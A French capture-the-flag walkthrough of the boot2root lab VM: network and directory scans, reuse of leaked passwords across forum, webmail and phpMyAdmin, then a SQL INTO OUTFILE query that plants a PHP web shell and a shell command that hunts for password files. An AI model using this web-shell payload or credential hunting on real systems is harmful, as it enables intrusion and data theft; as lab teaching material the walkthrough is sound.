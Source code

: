 # Recherche de l'IP de l'ISO boot2root
On va utiliser **nmap**, qui va nous permet de scanner (dans un premier temps), les IP utilisées par VirtualBox :
<pre><code>> nmap -sP IP-Vbox/24

Nmap scan report for IP (IP)
Host is up (0.0080s latency).
Nmap scan report for IP (IP)
Host is up (0.011s latency).
Nmap scan report for IP (IP)
Host is up (0.0031s latency).
Nmap scan report for IP (IP)
Host is up (0.0040s latency).
Nmap done: 256 IP addresses (4 hosts up) scanned in 3.19 seconds
</code></pre>

On teste les IP une a une pour savoir laquelle nous donne quelque chose d'interressant :
<pre><code>> nmap IP

Nmap scan report for IP (IP)
Host is up (0.0055s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 1 IP address (1 host up) scanned in 4.71 seconds
</code></pre>

Après avoir réussi à trouver l'ip, nous allons chercher les différents paths de l'ip sur le port https grace à **dirb** :
<pre><code>> dirb https://IP

GENERATED WORDS: 4612

---- Scanning URL: https://IP/ ----
+ https://IP/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://IP/forum/
==> DIRECTORY: https://IP/phpmyadmin/
+ https://IP/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://IP/webmail/

</code></pre>

## Partie HTTPS

Ensuite on se dirige vers /phpmyadmin, et on nous demande de fournir un mdp et un login, donc nous allons sur /formum

On trouve un topic : <code>Probleme login ?</code>
On voit que le topic est créé par lmezard, et que la page est rempli de log créé par un admin,
on cherche donc le nom lmezard dans la page, et on tombe sur ceci:
<pre><code>Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)</code></pre>

On voit un password sur la première ligne, donc on va essayer de se connecter au profil de lmezard sur le forum.

<code>login: lmezard

mdp: !q\]Ej?*5K5cy*AJ</code>

Ensuite on va sur son profil, ou l'on trouve son adresse mail.

<code>laurie@borntosec.net</code>

On tente de se connecter sur https://IP/webmail avec le même password, et ça marche.
On découvre 2 mails, celui qui nous intéresse est DB ACCESS, dans lequel on trouve le login et le mdp pour phpmyadmin

<code>root/Fg-'kKXBj87E:aJ$
</code>

Après s'être connecté sur phpmyadmin, on cherche a ouvrir un terminal grâce a un port apache ouvert:

```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/phpshell.php'
```

On se dirige vers https://IP/forum/templates_c/phpshell.php et on y rentre la commande suivante pour lister les fichiers du terminal php:
<code>find / -user www-data -print 2>/dev/null</code>

On voit sur la sortie <code>/home/LOOKATME/password</code> et on l'affiche:

<code>lmezard:G!@M6f4Eatau{sF"</code>

## Partie FILEZILLA

On a un accès ouvert a un port FTP, on va essayer le couple login/mdp sur un logiciel capable de lire ce genre de port (Filezilla par exemple), et ça fonctionne.
On trouve a la racine un fichier fun et un Readme, on les import pour les exploiter.

README:
<pre><code>Complete this little challenge and use the result as password for user 'laurie' to login in ssh</code></pre>

Le fichier fun est en fait une compression, on le décompresse avec la commande <code>tar -xvf fun </code> et on obtient un dossier remplis de .pcap.

On applique donc un script permettant de trier les fichiers, qui par la suite créera un main.c en commentant tout les trolls:

```c
import os
import re

main = {}

for file in os.listdir("ft_fun"):
	with open(f"ft_fun/{file}", "r") as f:
		code = f.read()
		# print(code)
		result = re.findall(r'//file([0-9]*)', code)
		main[int(result[0])] = code

with open("main.c", "w+") as f:
	for value in sorted(main.items()):
		f.write(str(value[1]) + "\n")
```
<pre><code>> gcc main.c
> ./a.out
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%</code></pre>

On passe un sha256 sur le password récupéré et on obtient:
<code>330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4</code>

On peut maintenant se connecter en ssh a boot2root avec le login laurie et le passwdn récupéré

## Partie SSH

A la racine de la vm, on trouve un executable bomb et un README
Bomb est un petit script nous demandant 6 passwords pour defuse la bombe, et ainsi récupérer le mot de passe de l'user thor

